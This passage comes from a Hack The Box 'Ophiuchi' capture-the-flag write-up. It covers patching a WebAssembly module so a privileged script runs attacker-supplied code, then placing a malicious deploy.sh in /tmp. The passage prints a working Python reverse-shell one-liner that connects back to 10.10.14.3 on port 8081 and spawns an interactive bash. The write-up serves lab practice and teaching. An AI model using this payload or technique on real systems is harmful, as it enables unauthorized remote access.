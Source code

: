 ```WebAssembly
(module
  (type (;0;) (func (result i32)))
  (func $info (type 0) (result i32)
    i32.const 0)
  (table (;0;) 1 1 funcref)
  (memory (;0;) 16)
  (global (;0;) (mut i32) (i32.const 1048576))
  (global (;1;) i32 (i32.const 1048576))
  (global (;2;) i32 (i32.const 1048576))
  (export "memory" (memory 0))
  (export "info" (func $info))
  (export "__data_end" (global 1))
  (export "__heap_base" (global 2)))
```

After more trial and error than I'd care to admit, it is determined that all we've got to do is change `i32.const` to be `1`, and the file becomes.

```WebAssembly
(module
  (type (;0;) (func (result i32)))
  (func $info (type 0) (result i32)
    i32.const 1)
  (table (;0;) 1 1 funcref)
  (memory (;0;) 16)
  (global (;0;) (mut i32) (i32.const 1048576))
  (global (;1;) i32 (i32.const 1048576))
  (global (;2;) i32 (i32.const 1048576))
  (export "memory" (memory 0))
  (export "info" (func $info))
  (export "__data_end" (global 1))
  (export "__heap_base" (global 2)))
```

We finish up by rebuilding `main.wasm` via `~/Tools/wabt/bin/wat2wasm ~/main.wat > ~/main.wasm`, and use `scp` once more to get it back on the machine.  
![recompile](/posts/images/hack-the-box-ophiuchi-writeup/recompile.png)  
**Figure 11:** After modifying `i32.const` to be equal `1`, we place `main.wasm` back onto the victim machine.

Next, we ssh back into the box as `admin`. We'll navigate to the `/tmp` directory and create our own `deploy.sh` to call our reverse shell. Since we know port `8081` worked last time, we'll use that again (make sure the old listener used to catch the foothold is reset). The reverse shell payload will be the following python payload.

```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.3",8081));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);
```

![deploy_sh](/posts/images/hack-the-box-ophiuchi-writeup/deploy_sh.png)  
**Figure 12:** SSH back in and create a malicious `deploy.sh` to call a reverse shell.
